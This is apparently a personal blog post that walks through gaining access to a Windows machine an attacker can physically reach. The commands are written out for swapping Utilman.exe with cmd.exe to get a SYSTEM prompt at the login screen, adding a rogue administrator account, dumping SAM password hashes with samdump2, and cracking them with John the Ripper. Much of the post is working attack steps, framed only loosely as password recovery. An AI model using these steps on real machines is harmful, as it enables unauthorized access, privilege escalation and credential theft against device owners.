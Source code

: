 
::title:Messing with Windows
::timestamp:1472720232

# Messing with Windows

## Mounting Windows on Linux

```
sudo pacman -S ntfs-3g
mkdir /mnt/windows
mount /dev/sdxX /mnt/windows
```

## Utilman.exe

Utilman.exe is a program run by windows with the hokey "windows + U". It even runs before the user has logged in at the login screen. The other important thing to note, is it runs under the SYSTEM user on Windows; this is equivalent to root on *nix systems. Therefore, we can replace the Utilman.exe with an executable of our own, for example, I used cmd.exe. I've got a bootable USB with Arch Linux on it and I have used it to mount the Windows file system and change the executables around.

```
cd /mnt/windows/Windows/System32
cp Utilman.exe Utilman.exe.bak
cp cmd.exe Utilman.exe
```

After rebooting, hit the hotkey and you now have a SYSTEM command prompt. I then added a user with:

```
net user anonymoususername password1234 /add
net localgroup Administrators anonymoususername /add
```

## Clearing the Admin Password

If you ever forget your administrator password and don't want to mess with SYSTEM files, you can just clear the admin password with a program called chntpw. It's a prety self explanatory program that you run interactively.

## Cracking the Hashes

If you ever have access to a system and you want to get the original password out, we will need to crack the password hash. This could take some time to crack, I'd highly recommend using a few password lists from github when doing this. Links below. First of all, we need to get the hashes out. To do that, we mount the windows system on linux, and then use samdump2 to dump the hashes.

```
cd /mnt/windows/Windows/System32/config/
sudo samdump2 SYSTEM SAM > /tmp/hashes
```

That file now has the hashes in it. Mine were of this form:

```
anonymoususername:1010:aad3b435b51404eeaad3b435b51404ee:23a8d92ef46bbe75d8cc807787bbc45b:::
```

I cracked this with john the ripper and a word list called rockyou.txt.

```
john --wordlist=rockyou.txt --format=NT2 /tmp/hashes
```



